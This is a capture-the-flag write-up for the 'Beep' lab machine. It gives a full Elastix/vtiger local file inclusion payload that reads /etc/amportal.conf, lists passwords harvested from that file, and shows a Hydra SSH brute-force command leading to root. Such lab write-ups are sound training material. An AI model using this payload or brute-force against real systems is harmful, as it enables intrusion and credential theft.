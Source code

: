 # Beep

## Info  
  * IP: 10.10.10.7
  * OS: Linux
  * Difficulty: Easy

## System Enumeration

### NMAP

![Beep Nmap](boxImages/Beep/nmap.png "NMAP")

### Web Page

![Beep WebPage](boxImages/Beep/webpage.png "Web Page")

## Exploitation

Since our webpage is an Elastix login, we should simply check if an exploit for elastix exists.  
Using `searchsploit elastix` we find:

![SearchSploit](boxImages/Beep/searchsploit.png "Searchsploit Output")

Trying out the local file inclusion vulnerability

![Exploit Documentation](boxImages/Beep/exploitcode.png "LFI graph.php")

`LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action`  

After appending this address to the web portal `10.10.10.7` we can see the `amportal.conf` file which consists of important user data.  
Simply viewing the source code, we see the data in a readable format

![Exploit Page Source Code](boxImages/Beep/exploitpage.png "Source Code")

So we make 2 lists for possible users and passwords

#### Users.txt(users on my local machine)
  ```
  root
  mysql
  cyrus
  asterisk
  spamfilter
  fanish
  ```
#### password.txt(pws on my local machine)
  ```
  asterisk
  amp109
  jEhdIekWmdjE
  passw0rd
  ```

### Hydra
After creating the lists of users and passwords we simply run Hydra to check possible ssh combinations.  
Using the command:  
`hydra -L users -P pws ssh://10.10.10.7`

![Hydra](boxImages/Beep/hydra.png "Hydra")

### Root Owned

Now we simply ssh, with the password that we got as root and we're in

![Rooted](boxImages/Beep/owned.png "Pwnage")

Simply traverse to the `/root` directory for `root.txt` and to `home/fanis` for `user.txt`

